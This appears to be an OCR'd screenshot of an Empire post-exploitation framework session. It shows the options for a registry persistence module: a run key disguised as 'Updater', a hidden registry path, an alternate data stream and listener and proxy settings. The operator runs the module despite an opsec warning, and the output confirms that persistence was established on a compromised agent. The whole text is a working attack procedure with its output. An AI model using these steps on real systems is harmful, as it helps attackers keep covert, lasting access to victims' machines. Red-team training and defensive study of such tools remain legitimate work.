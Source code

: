 ```
  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  EventLogID False                                 Store the script in the Application     
                                                   event log under the specified EventID.  
                                                   The ID needs to be unique/rare!         
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   True        https                     Listener to use.                        
  KeyName    True        Updater                   Key name for the run trigger.           
  RegPath    False       HKCU:Software\Microsoft\  Registry location to store the script   
                         Windows\CurrentVersion\D  code. Last element is the key name.     
                         ebug                    
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/registry) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 9
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/registry
(Empire: powershell/persistence/userland/registry) > Registry persistence established using listener https stored in HKCU:Software\Microsoft\Windows\CurrentVersion\Debug.

(Empire: powershell/persistence/userland/registry) >
```